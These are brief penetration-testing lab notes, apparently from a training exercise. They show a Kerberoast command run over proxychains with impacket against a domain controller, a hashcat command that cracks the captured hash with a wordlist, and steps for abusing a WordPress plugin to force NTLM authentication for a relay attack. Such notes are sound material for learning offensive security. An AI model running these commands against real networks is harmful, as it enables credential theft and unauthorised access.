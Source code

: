 ## Speak Kerberoast and Enter

Perform Kerberoast over SOCKS5 proxy using Proxychains:
`proxychains -q impacket-GetUserSPNs -request -dc-ip 172.16.6.240 beyond.com/john`

Store and crack obtained hash:
`sudo hashcat -m 13100 daniela.hash /usr/share/wordlists/rockyou.txt --force`

Can try to reuse creds for WordPress login

## Abuse a WordPress Plugin for a Relay Attack

Information:
- Users
- Settings > General
- Plugins
	- Identify places where you can force an NTLM authentication which can then be relayed

Guess which user WordPress is running as from the active sessions obtained from BloodHound

